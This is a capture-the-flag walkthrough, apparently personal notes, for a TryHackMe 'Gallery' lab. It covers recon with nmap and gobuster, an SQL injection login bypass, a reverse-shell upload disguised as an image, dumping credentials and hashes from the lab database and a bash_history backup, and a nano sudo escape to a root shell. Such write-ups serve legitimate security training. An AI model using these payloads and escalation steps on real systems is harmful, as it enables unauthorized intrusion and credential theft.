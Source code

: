 #nano

https://tryhackme.com/r/room/gallery666

---
#### Nmap scan
Port 80 and 8080 open

#### Gobuster
```shell
gobuster dir -u http://10.10.190.160 -w [wordlist] -t 200 -x php,txt
```

Found the `/gallery`

I've connected in the gallery through sqli `admin' and 1=1; -- -`

I've uploaded a revshell as image, simply as that

Then I found the database credentials in `/var/www/html/gallery/initialize.php`
The user is `gallery_user:passw0rd321`

I found another user `dev_oretnom:5da283a2d990e8d8512cf967df5bc0d0`, the password seems to be hashed

I found the admin gallery admin credentials in MariaDB through these commands
```sql
use gallery_db;
```

```sql
show tables;
```

```sql
select * from users;
```

The admin credentials are `admin:a228b12a08b6527e7978cbe5d914531c`

So we have 2 unknows passwords
`dev_oretnom:5da283a2d990e8d8512cf967df5bc0d0`
`admin:a228b12a08b6527e7978cbe5d914531c`

Mike's password was in a backup file in `/var/backups/mike_home_backup/.bash_history`

`mike:b3stpassw0rdbr0xx`

When I type `sudo -l` I see I can run `sudo /bin/bash /opt/rootkit.sh` and in this `rootkit.sh`, an option open `/root/report.txt` with nano as sudo
By pressing `CTRL + R`, I switch in Read File mode, then if I press `CTRL + X`, I can execute commands. And if I type this, I can get a root shell:
```shell
reset; sh 1>&0 2>&0
```

![[Screenshot_2024-05-05_15-34-48.png]]

[Nano root source](https://gtfobins.github.io/gtfobins/nano/)
